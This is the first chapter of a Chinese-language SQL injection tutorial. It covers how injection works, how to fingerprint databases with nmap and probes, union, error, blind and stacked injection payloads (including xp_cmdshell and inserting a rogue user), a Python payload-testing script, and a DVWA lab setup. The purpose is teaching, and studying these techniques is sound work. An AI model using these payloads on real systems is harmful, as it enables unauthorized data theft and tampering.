

# 第一章：SQL注入基础认知

## 1.1 SQL注入原理与危害

### 核心原理

SQL注入（SQL Injection）是一种将**恶意的SQL代码**插入或添加到应用程序的输入参数中，再将这些参数传递给后台SQL服务器加以解析并执行的攻击方式。

```sql
-- 正常登录查询
SELECT * FROM users WHERE username = 'admin' AND password = '123456'

-- 注入后的查询
SELECT * FROM users WHERE username = 'admin' AND password = '1' OR '1'='1'
```

### 攻击原理示意图

```
用户输入 → 应用程序 → SQL拼接 → 数据库执行
    ↓          ↓          ↓          ↓
恶意Payload → 未过滤 → 拼接恶意SQL → 非预期执行
```

### 根本原因

1. **用户输入未经验证**
2. **动态SQL语句拼接**
3. **过度信任用户输入**
4. **错误信息泄露**

### 危害等级

| 危害类型 | 影响程度 | 示例 |
|---------|----------|------|
| 数据泄露 | 🔴 严重 | 获取用户信息、商业数据 |
| 数据篡改 | 🔴 严重 | 修改价格、余额等 |
| 权限提升 | 🔴 严重 | 普通用户→管理员 |
| 系统控制 | 🔴 严重 | 获取服务器权限 |
| 拒绝服务 | 🟡 中等 | 数据库瘫痪 |

## 1.2 常见数据库特性对比

### 主流数据库特性对比表

| 特性 | MySQL | PostgreSQL | SQL Server | Oracle |
|------|-------|------------|------------|--------|
| **默认端口** | 3306 | 5432 | 1433 | 1521 |
| **注释语法** | `-- `, `#`, `/* */` | `-- `, `/* */` | `-- `, `/* */` | `-- `, `/* */` |
| **字符串连接** | `CONCAT()`, `空格` | `\|\|`, `CONCAT()` | `+`, `CONCAT()` | `\|\|`, `CONCAT()` |
| **当前用户** | `USER()`, `CURRENT_USER()` | `CURRENT_USER`, `USER` | `SUSER_NAME()`, `CURRENT_USER` | `USER` |
| **数据库版本** | `VERSION()` | `VERSION()` | `@@VERSION` | `SELECT banner FROM v$version` |
| **信息schema** | `information_schema` | `information_schema` | `sys.databases` | `ALL_TABLES` |
| **延时函数** | `SLEEP()`, `BENCHMARK()` | `PG_SLEEP()` | `WAITFOR DELAY` | `DBMS_LOCK.SLEEP()` |
| **文件读取** | `LOAD_FILE()` | `PG_READ_FILE()` | `OPENROWSET()` | `UTL_FILE` |
| **命令执行** | `sys_eval()` | 需扩展 | `xp_cmdshell` | `Java` |

### 数据库识别技巧

#### 端口扫描识别
```bash
# 使用nmap进行数据库端口扫描
nmap -sS -p 3306,5432,1433,1521,27017,6379,9200 目标IP

# 详细版本检测
nmap -sV -p 3306,5432,1433,1521 目标IP

# 数据库特定脚本扫描
nmap --script mysql-info -p 3306 目标IP
nmap --script pgsql-info -p 5432 目标IP
nmap --script ms-sql-info -p 1433 目标IP
```

#### 基于错误信息的识别

```sql
-- MySQL特征错误
' AND 1=1 -- 
-- 错误信息: You have an error in your SQL syntax...

-- PostgreSQL特征错误
' AND 1=1 -- 
-- 错误信息: ERROR: syntax error at or near...

-- SQL Server特征错误
' AND 1=1 -- 
-- 错误信息: Incorrect syntax near...

-- Oracle特征错误
' AND 1=1 -- 
-- 错误信息: ORA-00933: SQL command not properly ended
```

#### 函数和语法识别

```sql
-- MySQL识别特征
' AND SLEEP(5) -- 
' AND BENCHMARK(1000000,MD5('test')) -- 
' UNION SELECT 1,2,@@version -- 
' AND (SELECT COUNT(*) FROM information_schema.tables) > 0 -- 

-- PostgreSQL识别特征
' AND PG_SLEEP(5) -- 
' UNION SELECT 1,2,version() -- 
' AND (SELECT COUNT(*) FROM pg_catalog.pg_tables) > 0 -- 

-- SQL Server识别特征
'; WAITFOR DELAY '0:0:5' -- 
' UNION SELECT 1,2,@@version -- 
' AND (SELECT COUNT(*) FROM sysobjects) > 0 -- 

-- Oracle识别特征
' AND (SELECT COUNT(*) FROM ALL_USERS) > 0 -- 
' UNION SELECT 1,2,banner FROM v$version WHERE rownum=1 -- 
' AND (SELECT UTL_INADDR.get_host_name('127.0.0.1') FROM DUAL) IS NOT NULL -- 
```

#### 字符串连接方式识别

```sql
-- MySQL字符串连接
' UNION SELECT CONCAT('a','b'),2,3 -- 
' UNION SELECT 'a' 'b',2,3 -- 

-- PostgreSQL字符串连接
' UNION SELECT 'a'||'b',2,3 -- 
' UNION SELECT CONCAT('a','b'),2,3 -- 

-- SQL Server字符串连接
' UNION SELECT 'a'+'b',2,3 -- 
' UNION SELECT CONCAT('a','b'),2,3 -- 

-- Oracle字符串连接
' UNION SELECT 'a'||'b',2,3 FROM DUAL -- 
' UNION SELECT CONCAT('a','b'),2,3 FROM DUAL -- 
```

#### 注释语法识别

```sql
-- 单行注释测试
' -- 
' # 
' /* */ 

-- 多行注释测试
' /* 测试注释 */ AND '1'='1
```

#### 综合识别流程

```markdown
### 数据库识别流程图

1. **端口扫描** (nmap)
   ```
   3306 → MySQL
   5432 → PostgreSQL  
   1433 → SQL Server
   1521 → Oracle
   ```

2. **错误信息分析**
   - 触发语法错误观察返回信息
   - 不同数据库错误格式差异明显

3. **函数特征测试**
   - 延时函数：SLEEP() vs WAITFOR DELAY vs PG_SLEEP()
   - 版本函数：version() vs @@version
   - 系统表查询

4. **语法兼容性测试**
   - 字符串连接方式
   - 注释语法支持
   - 联合查询语法

5. **确认数据库类型**
   - 结合多个特征点确认
   - 使用数据库特有函数验证
```

#### 实用识别Payload集合

```sql
-- 快速数据库识别Payload
' UNION SELECT 
  @@version,    -- MySQL/SQL Server
  version(),    -- PostgreSQL
  (SELECT banner FROM v$version WHERE rownum=1),  -- Oracle
  'not_supported' -- 其他
-- 

-- 延时函数识别
' AND 
  IF(1=1,SLEEP(5),0) OR      -- MySQL
  WAITFOR DELAY '0:0:5' OR   -- SQL Server  
  PG_SLEEP(5) OR             -- PostgreSQL
  DBMS_LOCK.SLEEP(5)         -- Oracle
-- 

-- 系统表识别
' AND EXISTS(SELECT * FROM information_schema.tables) -- MySQL
' AND EXISTS(SELECT * FROM pg_catalog.pg_tables)      -- PostgreSQL
' AND EXISTS(SELECT * FROM sysobjects)                -- SQL Server
' AND EXISTS(SELECT * FROM ALL_TABLES)                -- Oracle
```

#### 自动化识别脚本思路

```python
import requests

def detect_database(url, param):
    tests = {
        'MySQL': ["' AND SLEEP(5) -- ", "' AND 1=1 UNION SELECT 1,2,3 -- "],
        'PostgreSQL': ["' AND PG_SLEEP(5) -- ", "' AND 1=1 UNION SELECT 1,2,3 -- "],
        'SQL Server': ["'; WAITFOR DELAY '0:0:5' -- ", "' AND 1=1 UNION SELECT 1,2,3 -- "],
        'Oracle': ["' AND (SELECT COUNT(*) FROM ALL_USERS) > 0 -- ", "' UNION SELECT 1,2 FROM DUAL -- "]
    }
    
    for db_type, payloads in tests.items():
        for payload in payloads:
            try:
                response = requests.get(f"{url}?{param}={payload}", timeout=10)
                # 根据响应时间、错误信息、页面内容判断
                if check_database_signature(response, db_type):
                    return db_type
            except:
                continue
    return "Unknown"
```

## 1.3 注入场景分类

### 按参数类型分类

#### 1. 数字型注入
```sql
-- 原语句
SELECT * FROM products WHERE id = $id

-- 注入示例
id = 1 OR 1=1
id = 1 UNION SELECT 1,2,database()
```

#### 2. 字符型注入
```sql
-- 原语句  
SELECT * FROM users WHERE username = '$username'

-- 注入示例
username = admin' OR '1'='1
username = admin' -- 
```

#### 3. 搜索型注入
```sql
-- 原语句
SELECT * FROM articles WHERE title LIKE '%$keyword%'

-- 注入示例
keyword = test%' OR 1=1 -- 
```

### 按反馈方式分类

#### 1. 联合查询注入（Union-Based）
```sql
-- 确定列数
' ORDER BY 5 -- 
' UNION SELECT 1,2,3,4,5 -- 
```

#### 2. 报错注入（Error-Based）
```sql
-- MySQL报错注入
' AND updatexml(1,concat(0x7e,(SELECT user())),1) -- 

-- SQL Server报错注入
' AND 1=CONVERT(int,(SELECT user())) -- 
```

#### 3. 布尔盲注（Boolean-Based Blind）
```sql
-- 判断数据库名长度
' AND LENGTH(database())=8 -- 

-- 逐位猜解数据库名
' AND SUBSTRING(database(),1,1)='a' -- 
```

#### 4. 时间盲注（Time-Based Blind）
```sql
-- MySQL时间盲注
' AND IF(ASCII(SUBSTRING(database(),1,1))>100,SLEEP(5),0) -- 

-- PostgreSQL时间盲注
' AND (CASE WHEN (ASCII(SUBSTRING((SELECT current_database()),1,1))>100) THEN PG_SLEEP(5) ELSE PG_SLEEP(0) END) -- 
```

#### 5. 堆叠查询（Stacked Queries）
```sql
-- MySQL堆叠查询（需特定配置）
'; INSERT INTO users VALUES ('hacker','password') -- 

-- SQL Server堆叠查询
'; EXEC xp_cmdshell 'whoami' -- 
```

## 1.4 学习环境搭建

### Docker环境搭建（推荐）

#### 1. Docker Compose配置
```yaml
# docker-compose.yml
version: '3'
services:
  mysql:
    image: mysql:8.0
    environment:
      MYSQL_ROOT_PASSWORD: root
      MYSQL_DATABASE: testdb
    ports:
      - "3306:3306"
    volumes:
      - ./mysql-data:/var/lib/mysql

  postgres:
    image: postgres:13
    environment:
      POSTGRES_PASSWORD: postgres
      POSTGRES_DB: testdb
    ports:
      - "5432:5432"

  web-vuln-app:
    image: vulnerables/web-dvwa
    ports:
      - "8080:80"
    environment:
      - MYSQL_PASSWORD=root
```

#### 2. 启动命令
```bash
# 启动所有服务
docker-compose up -d

# 查看服务状态
docker-compose ps

# 停止服务
docker-compose down
```

### 本地环境搭建

#### 1. 软件准备
- **Web服务器**: XAMPP、WAMP 或 MAMP
- **数据库**: MySQL、PostgreSQL
- **测试应用**: DVWA、SQLi Labs、WebGoat

#### 2. DVWA安装步骤
```bash
# 下载DVWA
git clone https://github.com/digininja/DVWA.git

# 复制到Web目录
cp -r DVWA /var/www/html/

# 配置数据库
cd /var/www/html/DVWA/config
cp config.inc.php.dist config.inc.php

# 编辑配置文件
vim config.inc.php
```

#### 3. 常用测试应用

| 应用名称 | 特点 | 适用场景 |
|---------|------|----------|
| **DVWA** | 多种漏洞类型 | 综合学习 |
| **SQLi Labs** | 专注SQL注入 | 专项训练 |
| **WebGoat** | 教育导向 | 系统学习 |
| **bWAPP** | 漏洞种类丰富 | 实战练习 |

### 浏览器配置

#### 1. 必备浏览器插件
- **HackBar** - 快速构造Payload
- **Cookie Editor** - Cookie管理
- **Wappalyzer** - 技术栈识别

#### 2. 代理工具配置
```bash
# Burp Suite配置
1. 浏览器设置代理: 127.0.0.1:8080
2. 导入Burp证书
3. 设置拦截规则

# 或者使用OWASP ZAP
```

### 安全测试原则

#### 1. 合法授权
```markdown
✅ 允许测试的环境：
- 自己搭建的测试环境
- 专门的漏洞测试平台
- 获得明确授权的系统

❌ 禁止测试的环境：
- 未授权的生产系统
- 他人的网站和系统
- 公共网络服务
```

#### 2. 测试边界
```markdown
- 仅在localhost或隔离网络测试
- 使用虚拟机和容器隔离
- 测试后恢复环境状态
- 不进行DDoS或破坏性测试
```

### 学习路线建议



---

**下一章**: [第二章：注入点探测与确认](02-注入点探测与确认.md)

> 注意：本章内容仅用于安全学习和研究，请在合法授权的环境中进行测试。